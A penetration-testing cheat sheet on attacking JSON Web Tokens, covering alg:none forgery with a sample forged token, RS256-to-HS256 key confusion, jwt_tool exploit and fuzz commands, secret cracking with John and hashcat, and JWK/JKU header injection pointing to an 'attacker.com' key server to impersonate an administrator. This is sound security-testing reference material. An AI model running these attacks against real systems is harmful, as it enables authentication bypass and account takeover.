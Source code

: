 ```yaml
---
title: JWT (Json Web Token) Pentesting
description: JWT is a proposed internet standard for creating data with optional signature and optional encryption whose payload holds JSON that asserts some number of claims.
tags:
    - Web
refs:
    - https://portswigger.net/web-security/jwt
date: 2024-04-13
draft: false
---
```


## Decode JWT

- There are some online JWT decoder/encoder tools like **[JWT.io](https://jwt.io/)**.
- **[CyberChef](https://gchq.github.io/CyberChef/#recipe=JWT_Decode())** can be used for JWT decode.

<br />

## None Algorithm Attack

If the website uses JWT and we can see the token, copy the JWT and paste it in [jwt.io](https://jwt.io/).

1. Replace the **"alg"** value with **"none"** in header. (try the alg header variations such as **"none"**, **"None"**, **"nOnE"**, **"NONE"**.)
2. Replace arbitrary values of the payload e.g. **"username"** with **"admin"**.
3. Empty the signature field.

If the error **"Invalid Signature"** occured, we can manually create Base64 value for each section (remove the **"="** symbol).  
If you want to empty the signature field manually, you can delete the final section.  
For example,

```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjc4NDYwNjM1fQ.
```

Now copy the JWT.  
Go to the website and replace the original JWT with the new one in HTTP header.  

<br />

## RS256 → HS256 Algorithm Attack

Reference: [HackTricks](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens#change-the-algorithm-rs256-asymmetric-to-hs256-symmetric-cve-2016-5431-cve-2016-10555)

When changing the `alg` value from `RS256` (asymmetric) to `HS256` (symmetric) may, the target server may use the public key as the secret key. It may be possible to verify the signature.  

We can retrieve the public key with the following command:

```bash
openssl s_client -connect example.com:443 2>&1 < /dev/null | sed -n '/-----BEGIN/,/-----END/p' > certificatechain.pem
openssl x509 -pubkey -in certificatechain.pem -noout > pubkey.pem
```

<br />

## Automation

**[JWT Toolkit](https://github.com/ticarpi/jwt_tool)** is a toolkit for testing, tweaking and cracking JWT.

### Decode

```sh
python jwt_tool.py <Base64_Encoded_JWT>
```

### Scan

```sh
# -t: Target URL
# -rc: Cookies
# -M pb: Playbook Scan Mode
# -cv: Canary Value
python jwt_tool.py -t https://vulnerable.com/admin -rc "jwt=<Base64_Encoded_JWT>;anothercookie=test" -M pb -cv "not authorized"
```

### Exploit

```sh
# -X i: Exploit (inject inline)
# -I -pc username -pv admin: Inject Claim ("username": admin)
python jwt_tool.py -t https://vulnerable.com/admin -rc "jwt=<Base64_Encoded_JWT>;anothercookie=test" -X i -I -pc username -pv admin
```

### Fuzz

```sh
# -I -hc kid -hv wordlist.txt: Inject Claim ("kid": FUZZ)
python jwt_tool.py -t https://vulnerable.com/admin -rc "jwt=<Base64_Encoded_JWT>;anothercookie=test" -I -hc kid -hv wordlist.txt
```

### Manual Pentesting

```sh
# Tamper (Manual Exploit)
python jwt_tool.py <Base64_Encoded_JWT> -T

# Exploit (Automated Exploit)
# -X a: Exploit (alg: none)
python jwt_tool.py <Base64_Encoded_JWT> -X a
```

<br />

## Crack JWT Secret

First of all, you need to put the JWT into the text file.

```sh
echo -n '<Base64_Encoded_JWT>' > jwt.txt
# e.g.
echo -n 'eyJraWQiOiI1OGNkYTU1ZS03NDY4LTRhNmMtYTQ2MS00NmIzZjM1MTMwMWYiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJ0ZXN0Iiwic3ViIjoiYWRtaW4iLCJleHAiOjkxNjg2NDY3NjY1fQ.uK-rKQJzEQ7THoZXcfmHhvnwOE5P46IQIVRWmL4juDM' > jwt.txt
```

Then crack the hash using John the Ripper or Hashcat.

```sh
john --format=HMAC-SHA256 --wordlist=/usr/share/wordlists/rockyou.txt jwt.txt

hashcat -a 0 -m 16500 jwt.txt passwords.txt
hashcat -a 0 -m 16500 jwt.txt passwords.txt -r rules/best64.rule
hashcat -a 3 -m 16500 jwt.txt '?u?l?l?l?l?l?l?l' -i --increment-min=6
```

If you found a secret, you can create a new JWT using the secret on tools like JWT.io.

Also we can use [jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker).

<br />

## JWK (Json Web Key) Header Injection

If the server supports the **`jwk`** in the JWT header, we may be able to add arbitrary **`jwk`** parameters then impersonate another user.  
To perform that, **JWT Editor** extension in Burp Suite is useful.

1. Install JWT Editor in BApp Store in Burp Suite.
2. Go to JWT Editor Keys tab.
3. If the server JWT’s algorithm is RSA such as **RS256**, click **New RSA Key** then click Generate button in the popup.
4. Send request containing JWT to Burp Repeater.
5. Go to **Json Web Token** tab, then modify arbitrary parameter e.g. username.
6. Click **Attack** at the bottom. Select **Embedded JWK**.
7. In the popup, choose our generated key.
8. After that, the **`jwk`** is added in the JWT header.
9. Send request in Repeater.

<br />

## JKU (JWK Set URL) Header Injection

If the server supports the **`jku`** in the JWT header, we may be able to add arbitrary URL in the **`jku`** then impersonate another user.  As in the JWK section above, **JWT Editor** is useful.  
First of all, generate RSA key as the JWK section above, then serve it in our own web server. The body is as below.

```json
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "9c8bc417-ccbf-4b9d-b22b-b90c82f958c6",
            "n": "g7Qf9pqbHfqOXU3kGs4AnvZZvLsxV4kaxs3gLjgD_J4WMOZI7zmRlxuDg74r6gCKeEDdk4JilkRLnZ85xAG4vRMbuODKD-I1uNv6_ZT6RcCh8YS6tQn-bHPOdfcxgoTGpLBLHpj9dLIPwEFhNQiikJkaQxA_RF1eQAQhFO_6AHRBDNkDJfHUhu9ymbsFSpskMIhi3pMISKKSZSF2vYt3gR3Kq4tjUAnfLW_8XUdeJ56RKjBeVV2IgVfmOn-UvHcnLKm2Kki60G1ViEFcQiRzqp9DY8g91RZSMY3xHO0L2LZg34MZ3NInE7XyaRgupotn7yFImYkvd86L0VwICa6b8w"
        }
    ]
}
```

After that, add **`jku`** in the JWT header and set the URL of our server. Then set the **`kid`** of our generated key into the **`kid`**.  
Finally modify arbitrary value e.g. username.  
As a result, our JWT is as the following.

```json
// Header
{
    "kid": "9c8bc417-ccbf-4b9d-b22b-b90c82f958c6",
    "alg": "RS256",
    "jku": "https://attacker.com/key"
}

// Payload
{
    "user": "administrator"
    "exp": 123456789
}
```

Now send request using the JWT above. We may be able to become administrator.
